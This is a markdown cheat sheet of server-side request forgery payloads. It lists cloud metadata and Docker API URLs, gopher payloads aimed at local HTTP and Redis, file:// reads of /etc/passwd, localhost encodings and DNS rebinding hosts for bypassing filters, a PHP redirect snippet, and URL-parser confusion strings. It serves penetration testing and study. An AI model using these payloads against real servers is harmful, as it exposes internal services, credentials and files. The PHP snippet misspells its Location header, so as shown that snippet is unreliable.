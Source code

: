 # SSRF
> [SSRF bible Cheatsheet](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf)

- Scheme
    > [URL schema support](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#bookmark=id.osggnj3pn7l6)

    - HTTP
        - Docker API  
            `http://IP:2375/images/json`
        - Cloud Metadata (GCP)  
            `http://metadata.google.internal/computeMetadata/v1/...`
        - Cloud Metadata (AWS)  
            `http://169.254.169.254/latest/user-data/...`
    - Gopher

        > Generate arbitrary TCP packet under no interaction.
        >
        > `gopher://<authority>/<padding><tcp payload>`

        - [Gopher Payload Generator](https://github.com/tarunkant/Gopherus)
        - HTTP GET/POST  
            `gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0D%0AHost:127.0.0.1%0D%0A%0D%0A`
        - MySQL (must without password)  
            [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
        - Redis  
            `gopher://127.0.0.1:6379/_SET%20key%20"value"%0D%0A`
        - PHP-FPM

    - Local File
        - `file:///etc/passwd`
        - `file://localhost/etc/passwd`
        - `python` `local_file:///etc/passwd`
        - `java` `file:///var/www/html/`
        - `java` `netdoc:///var/www/html/`

- Authority
    - localhost
        - 127.0.0.1
        - localhost
        - 127.0.1
        - 127.1
        - 0.0.0.0
        - 0
    - IP Address
        - 2130706443 (dec)
        - 0x7f00000001 (hex)
        - 0x7f.0x0.0x0.0x1
        - 0177000000001 (oct)
        - 0177.0.0.01
    - IPv6
        - ::1
        - ::127.0.0.1
        - ::ffff:127.0.0.1
        - ::
        - ip6-localhost
    - IDN Encoding
        - http://www.unicode.org/reports/tr46/  
        - [Domain Obfuscator](https://splitline.github.io/domain-obfuscator/)
        - http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ
    - Domain Name Binding
        - whatever.localtest.me
        - 127.0.0.1.xip.io
    - DNS Rebinding (Round-Robin DNS)
        - foo.bar.10.0.0.1.xip.io
        - A.54.87.54.87.1time.127.0.0.1.forever.rebind.network
        - 36573657.7f000001.rbndr.us
    - 302 Bypass

        > If the environment does not block http redirect, query your own web server which respond
        >
        > ```php
        > <?php
        >   Header("Locathon: gopher://127.0.0.1:9000/_...")
        > ?>
        > ```

    - URL Parser
        - `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

            | 1.1.1.1 | 2.2.2.2  | 3.3.3.3 |
            |:-------:|:--------:|:-------:|
            | urllib2 | requests | urllib  |
            | httplib |          |         |

- Case Study
    - [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884)
    - [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
